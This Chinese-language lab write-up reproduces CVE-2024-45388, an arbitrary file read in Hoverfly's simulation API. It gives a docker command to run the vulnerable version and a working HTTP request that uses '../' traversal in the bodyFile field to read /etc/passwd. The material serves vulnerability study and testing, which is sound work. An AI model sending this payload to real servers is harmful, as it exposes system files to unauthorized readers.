

# Hoverfly /api/v2/simulation 存在任意文件读取(CVE-2024-45388)

​	Hoverfly 是一个轻量的 API 服务模拟工具（有时候也被称作服务虚拟化工具）。使用 Hoverfly，您可以创建应用程序依赖的 API 的真实模拟。
​	2024年9月，官方发布新版本修复了CVE-2024-45388，Hoverfly /api/v2/simulation 端点，POST 处理程序允许用户从用户指定文件的内容创建新的模拟视图，然而，这一功能可能被攻击者利用来读取 Hoverfly 服务器上的任意文件。尽管代码禁止指定绝对路径，但攻击者可以通过使用 `../` 段来逃离 `hf.Cfg.ResponsesBodyFilesPath` 基本路径，从而访问任何任意文件。

项目地址：https://github.com/SpectoLabs/hoverfly/

版本影响：Hoverfly < v1.10.3

参考链接：

- https://github.com/SpectoLabs/hoverfly/security/advisories/GHSA-6xx4-x46f-f897

## 漏洞环境

执行如下命令启动一个hoverfly:v1.10.2：

```
docker run -d -p 8888:8888 -p 8500:8500 spectolabs/hoverfly:v1.10.2
```


## 漏洞复现



```
POST /api/v2/simulation HTTP/1.1
Host: 192.168.76.128:8888
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

{"data":{"pairs":[{
"request":{},"response": {
"bodyFile": "../../../../../etc/passwd"}} ]},"meta":{"schemaVersion":"v5.2"}}
```

